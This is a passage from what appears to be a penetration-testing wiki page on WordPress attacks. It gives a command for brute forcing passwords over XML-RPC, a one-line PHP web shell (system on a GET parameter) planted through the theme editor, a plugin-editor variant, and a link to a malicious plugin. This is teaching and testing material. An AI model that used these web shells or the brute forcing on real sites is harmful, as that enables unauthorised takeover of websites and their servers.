 The following tool implements this idea by guessing many passwords from a wordlist:

{% embed url="https://github.com/aress31/xmlrpc-bruteforcer" %}
Tool to brute force WordPress passwords using XML RPC multicall
{% endembed %}

```bash
xmlrpc-bruteforcer -u $USERNAME -w /list/rockyou.txt -x http://$IP/xmlrpc.php
```

## Authenticated RCE

When authenticated **as an admin**, you can make any changes to the site. This also means you can edit the PHP code that is executed whenever a page is visited, allowing you to write code that executes shell commands.

You should be able to access **Tools** -> **Theme File Editor** to edit the current theme:

```bash
$BASE_URL/wp-admin/theme-editor.php
```

Then, select any `.php` file you think will be executed when you visit a page. By default, there is a `functions.php` file that every other file includes, so it will always be run. Edit such a file to include any PHP code you want to execute:

```php
<?php
system($_GET["cmd"]);
```

After saving, you should be able to access the page to run the code:

```bash
$BASE_URL/?cmd=id
```

{% hint style="warning" %}
If this does not work for any reason, alternatives include the **Tools** -> **Plugin File Editor** with any plugin, then activate it at **Plugins** -> **Installed Plugins** to trigger the code:

<pre class="language-php"><code class="lang-php"><strong>&#x3C;?php
</strong><strong>system("id > /tmp/pwned");
</strong></code></pre>

As a last option, you can always upload your own malicious plugin like this:\
[https://github.com/wetw0rk/malicious-wordpress-plugin](https://github.com/wetw0rk/malicious-wordpress-plugin)
{% endhint %}

## Custom Plugins

WordPress can be extended by installing plugins, either through the store or manually by adding them to the `wp-content/plugins/` folder. Custom plugins may contain security vulnerabilities and are a very common source of WordPress issues that [#wpscan](wordpress.md#wpscan "mention") also searches for.&#x20;

### Inputs


[^1]: "nopriv" here implies unauthenticated&#x20;